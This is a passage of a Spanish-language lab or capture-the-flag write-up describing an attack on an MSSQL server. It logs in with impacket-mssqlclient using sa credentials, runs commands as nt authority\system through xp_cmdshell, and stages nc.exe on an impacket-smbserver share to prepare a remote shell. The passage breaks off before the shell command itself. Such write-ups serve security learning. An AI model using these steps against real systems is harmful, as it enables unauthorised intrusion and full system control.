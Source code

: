 # Intrusión

Vamos a usar el cliente de sql que trae el paquete `impacket`. Usamos `impacket-mssqlclient` con los parámetros `COMPAC/` , que es el nombre de dominio que hemos visto en el escaneo, seguido de las credenciales `sa:Contpaqi2023.` , le indicamos el target `@10.0.2.145` y el puerto, ya que no está en el puerto por defecto, `-port 49992`:

```bash
$ impacket-mssqlclient COMPAC/sa:Contpaqi2023.@10.0.2.145 -port 49992
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DESKTOP-M464J3M\COMPAC): Line 1: Changed database context to 'master'.
[*] INFO(DESKTOP-M464J3M\COMPAC): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```

En SQL Server hay un comando que sirve para ejecutar comandos por una shell, `xp_cmdshell`. Asi que una vez conectados probamos a ver si funciona el comando:

```bash
SQL (sa  dbo@master)> xp_cmdshell whoami
output                
-------------------   
nt authority\system   

NULL
```

Vemos que si y encima está ejecutando los comandos como **nt authority\system.** 

# Escalada de privilegios

Vamos a preparar la obtención de una shell remota como **nt authority\system**. Para ello nos copiamos el binario `nc.exe` a nuestro directorio de trabajo. También ponemos el servidor samba con `impacket-smbserver`:

```bash
$ cp /usr/share/windows-binaries/nc.exe .

$ impacket-smbserver -smb2support murrusko .
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
